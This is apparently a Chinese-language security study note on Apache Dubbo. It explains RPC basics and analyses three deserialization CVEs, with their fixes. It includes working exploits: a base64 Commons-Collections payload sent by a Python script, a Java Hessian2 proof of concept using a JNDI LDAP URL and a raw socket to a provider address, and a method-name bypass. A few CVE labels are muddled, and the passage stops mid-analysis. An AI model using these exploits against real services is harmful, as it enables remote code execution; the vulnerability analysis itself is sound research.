# Dubbo

## Dubbo简介

Dubbo是阿里巴巴公司开源的一个高性能优秀的服务框架，使得应用可通过高性能的RPC实现服务的输出和输入功能，可以和Spring框架无缝集成。**简单地说，dubbo是一个基于Spring的RPC（远程过程调用）框架，能够实现服务的远程调用、服务的治理**

**最主要就是服务之间的治理（治理基本上要做成运行时治理）**

**如果要用dubbo必须要用spring，非常大的前提**

## 什么是RPC

> RPC是指远程过程调用，也就是说两台服务器A，B，一个应用部署在A服务器上，想要调用B服务器上应用提供的函数/方法，由于不在一个内存空间，不能直接调用，需要通过网络来表达调用的语义和传达调用的数据。

具体参考https://www.zhihu.com/question/25536695


## Dubbo的工作原理


| 节点      | 角色说明                               |
| --------- | -------------------------------------- |
| Provider  | 暴露服务的服务提供方                   |
| Consumer  | 调用远程服务的服务消费方               |
| Registry  | 服务注册与发现的注册中心               |
| Monitor   | 统计服务的调用次数和调用时间的监控中心 |
| Container | 服务运行容器                           |

首先容器开启并提供RPC服务，然后

1. 服务提供者在启动时，向注册中心注册自己提供的服务。
2. 服务消费者在启动时，向注册中心订阅自己所需的服务。
3. 注册中心返回服务提供者地址列表给消费者，如果有变更，注册中心将基于长连接推送变更数据给消费者。
4. 服务消费者，从提供者地址列表中，基于软负载均衡算法，选一台提供者进行调用，如果调用失败，再选另一台调用。
5. 服务消费者和提供者，在内存中累计调用次数和调用时间，定时每分钟发送一次统计数据到监控中心。




## Zookeeper

Zookeeper是Dubbo推荐的注册中心，需要自己安装，参考：

https://www.runoob.com/w3cnote/zookeeper-setup.html

虽然他会绑定到2181端口但似乎还会另外占用一个默认是8080的端口，但是8080经常被别的东西占用，所以需要进行修改zoo.cfg，增加这么一行：

```yml
admin.serverPort=8101
```


命令：

https://blog.csdn.net/feixiang2039/article/details/79810102

## CVE-2019-17564

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

### 影响版本

- Dubbo 2.7.0 to 2.7.4
- Dubbo 2.6.0 to 2.6.7
- Dubbo all 2.5.x versions

### 环境搭建

使用https://github.com/apache/dubbo-samples/中的dubbo-samples-http。pom.xml中修改Dubbo版本为漏洞版本然后增加CC链的依赖来实现反序列化rce。运行Zoomkeeper server后再运行HttpProvider，再运行Consumer后Provider会收到`[14:26:00] Hello world, request from consumer: 169.254.110.115:2996`即证明环境OK。

### 攻击

生成CC5的EXP后打过去即可rce：

```python
import base64
import requests

url = "http://127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService"
poc = "rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAXNyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAL3QAImNvbS5zdW1tZXIuY2M1LkNvbW1vbnNDb2xsZWN0aW9uczV0ABhDb21tb25zQ29sbGVjdGlvbnM1LmphdmF0AARtYWluc3IAJmphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVMaXN0/A8lMbXsjhACAAFMAARsaXN0cQB+AAd4cgAsamF2YS51dGlsLkNvbGxlY3Rpb25zJFVubW9kaWZpYWJsZUNvbGxlY3Rpb24ZQgCAy173HgIAAUwAAWN0ABZMamF2YS91dGlsL0NvbGxlY3Rpb247eHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHhxAH4AFXhzcgA0b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmtleXZhbHVlLlRpZWRNYXBFbnRyeYqt0ps5wR/bAgACTAADa2V5cQB+AAFMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQABGZlbmdzcgAqb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLm1hcC5MYXp5TWFwbuWUgp55EJQDAAFMAAdmYWN0b3J5dAAsTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAtW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHB1cgAtW0xvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuVHJhbnNmb3JtZXI7vVYq8dg0GJkCAAB4cAAAAARzcgA7b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHEAfgABeHB2cgARamF2YS5sYW5nLlJ1bnRpbWUAAAAAAAAAAAAAAHhwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5JbnZva2VyVHJhbnNmb3JtZXKH6P9re3zOOAIAA1sABWlBcmdzdAATW0xqYXZhL2xhbmcvT2JqZWN0O0wAC2lNZXRob2ROYW1lcQB+AAVbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+AC0AAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAtc3EAfgAmdXEAfgAqAAAAAnB1cQB+ACoAAAAAdAAGaW52b2tldXEAfgAtAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AKnNxAH4AJnVxAH4AKgAAAAF0AARjYWxjdAAEZXhlY3VxAH4ALQAAAAFxAH4AMnNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHg="
headers={
    "Content-Type": "application/x-java-serialized-object"
}
data= base64.b64decode(poc)

r=requests.post(url=url,data=data,headers=headers)
print(r.text)
```

### 分析

拿wireshark抓一下consumer发给provider的包：



可以看到请求的是`/org.apache.dubbo.samples.http.api.DemoService`，也就是请求的接口名。Content-Type是`application/x-java-serialized-object`，data部分看感觉是序列化的二进制流了。

利用这个漏洞需要知道请求的RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

可以利用zkCli.cmd连上去，ls列出所有节点，获得相关的配置信息，RPC接口名以及相应的地址：



实战中如果存在SSRF的话可以SSRF攻击registry（参考XCTF2022 final的Dubbo）。


根据报错可以知道起点是`javax.servlet.http.HttpServlet.service(HttpServlet.java:790)`：



Servlet处理请求的时候会调用service，跟进，获取handler，这里的handler是`HttpProtocol`对象，因为使用的http协议通信



之后的处理就很容易理解，就是判断请求方式是不是post，如果是的话就继续`handleRequest`，调用`readRemoteInvocation`，根据post的data创建一个`ObjectInputStream`对象，然后原生反序列化造成反序列化rce：



调用栈：

```
doReadRemoteInvocation:144, RemoteInvocationSerializingExporter (org.springframework.remoting.rmi)
readRemoteInvocation:121, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
readRemoteInvocation:100, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
handleRequest:79, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
handle:216, HttpProtocol$InternalHandler (org.apache.dubbo.rpc.protocol.http)
service:61, DispatcherServlet (org.apache.dubbo.remoting.http.servlet)
service:790, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
```

### 修复

```java
JsonRpcServer skeleton = skeletonMap.get(uri);
```

新版本的Dubbo处理http的时候不再用`HttpInvokerServiceExporter`了：

```java
            HttpInvokerServiceExporter skeleton = skeletonMap.get(uri);
```

而Jsonrpc处理的是json了：



无法解析那个二进制流了。


## CVE-2020-1948

Dubbo默认的原生协议是Dubbo-hessian协议（之所以还要加上Dubbo是因为它和单独的hessian还是不一样了，就比如，2022年hfctf的那个chain题，那个是单独的hessian，所以`SignedObject`可以打通，而在Dubbo-hessian里面是打不通的），这个CVE就是原生Dubbo-hessian协议的反序列化问题。

### 影响版本

- 2.7.0 <= Dubbo Version <= 2.7.6
- 2.6.0 <= Dubbo Version <= 2.6.7
- Dubbo 所有 2.5.x 版本（官方团队目前已不支持）

### 环境搭建

使用https://github.com/apache/dubbo-samples/中的dubbo-samples-basic，改一下dubbo版本然后配上依赖：

```xml
        <dependency>
            <groupId>com.rometools</groupId>
            <artifactId>rome</artifactId>
            <version>1.7.0</version>
        </dependency>
```

### 分析

让consumer发个看看：



Dubbo协议的格式是这样：

https://dubbo.apache.org/zh/docs/concepts/rpc-protocol/#protocol-spec

Hessian2反序列化之前也了解过了，三梦师傅的文章也提到了Dubbo-hessian反序列化的限制：

> 对其整理一下：
>
> 1. 默认dubbo协议+hessian2序列化方式
> 2. 序列化tcp包可随意修改方法参数反序列化的class
> 3. 反序列化时先通过构造方法实例化，然后在反射设置字段值
> 4. 构造方法的选择，只选择花销最小并且只有基本类型传入的构造方法
>
> 由此，想要rce，估计得找到以下条件的gadget clain：
>
> 1. 有参构造方法
> 2. 参数不包含非基本类型
> 3. cost最小的构造方法并且全部都是基本类型或String


，直接拿三梦师傅的POC来攻击即可：

```java
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
//todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:8087/xxx");
        rs.setMatchColumn("foo");
        //SerializeUtil.getFieldValue(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);
        Field listeners = Class.forName("javax.sql.rowset.BaseRowSet").getDeclaredField("listeners");
        listeners.setAccessible(true);
        listeners.set(rs,null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        SerializeUtil.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        SerializeUtil.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

// header.
        byte[] header = new byte[16];
// set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
// set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

// set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
//todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("org.apache.dubbo.samples.basic.api.DemoService");
        out.writeUTF("0.0.0");
        out.writeUTF("sayHello");
//todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        out.writeUTF("Ljava/util/Map;");
        out.writeObject(s);
        //out.writeObject(new HashMap());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("92.59.17.2", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
```

基本的poc构造好之后构造一下协议，然后socket发送过去。

### 修复

在`DecodeableRpcInvocation.java`中的`decode`加了这么个东西;

```java
                if (pts == DubboCodec.EMPTY_CLASS_ARRAY) {
                    if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
                        throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
                    }
                    pts = ReflectUtils.desc2classArray(desc);
                }
```

```java
    public static boolean isGenericCall(String path, String method) {
        return $INVOKE.equals(method) || $INVOKE_ASYNC.equals(method);
    }
```

```java
    public static boolean isEcho(String path, String method) {
        return $ECHO.equals(method);
    }
```

```java
    String $INVOKE = "$invoke";
    String $INVOKE_ASYNC = "$invokeAsync";
    String $ECHO = "$echo";
```

获得方法的名字然后如果不是那些invoke和echo就抛出异常。

之所以会有这样的过滤，是因为上面通过方法名和传入的参数类型来获得`MethodDescriptor`，如果成功获取了`MethodDescriptor`，`pts`就是`methodDescriptor.getParameterClasses()`的结果：



而CVE-2019-17564利用的时候，传入的参数必须是那个Map才行，而我们搭建的环境中的函数传的是String：



这样就会因为param不匹配而找不到方法，从而进行invoke和echo的判断，然后寄。

这也是CVE-2019-17564本身的问题，协议中写的参数和实际要求的参数不同。明明要求String但是却恶意弄成Map然后反序列化了。

## CVE-2020-11995

对CVE-2022-1948的绕过

### 影响版本

- Dubbo 2.7.0 ~ 2.7.8
- Dubbo 2.6.0 ~ 2.6.8
- Dubbo 所有 2.5.x 版本

### POC

方法名那里写`$invoke,$invokeAsync,$echo`都可。

```java
//todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("org.apache.dubbo.samples.basic.api.DemoService");
        out.writeUTF("0.0.0");
        out.writeUTF("$invoke");//$invokeAsync,$echo
```

### 分析

Dubbo支持泛型调用，结果就是只要过了这个修复，下面还是会反序列化Map：

